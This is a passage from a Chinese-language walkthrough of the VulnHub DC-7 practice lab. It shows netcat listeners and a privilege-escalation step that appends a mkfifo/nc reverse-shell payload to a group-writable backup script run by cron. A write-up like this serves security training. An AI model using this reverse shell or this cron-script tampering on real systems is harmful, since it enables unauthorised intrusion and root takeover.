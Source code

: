kali 监听
```
nc -lvp 4444
```

点击 preview,成功回弹

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/16.png)

---

# 后期-提权

和 dc7user 这个用户一样, www 用户也啥吊权限没有,只好把希望放在之前的备份脚本上

```
cd /opt/scripts/
ls -l
```

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC7/17.png)

可见文件属组为 www-data,组权限 rwx,我们可以对脚本进行修改,期望通过定时任务尝试提权

kali 监听
```
nc -lvp 5555
```

写入 payload
```
cd /opt/scripts/
echo "mkfifo /tmp/bqro; nc 192.168.141.134 5555 0</tmp/bqro | /bin/sh >/tmp/bqro 2>&1; rm /tmp/bqro" >> /opt/scripts/backups.sh
cat backups.sh
```

耐心等待几分钟,就反弹回来了
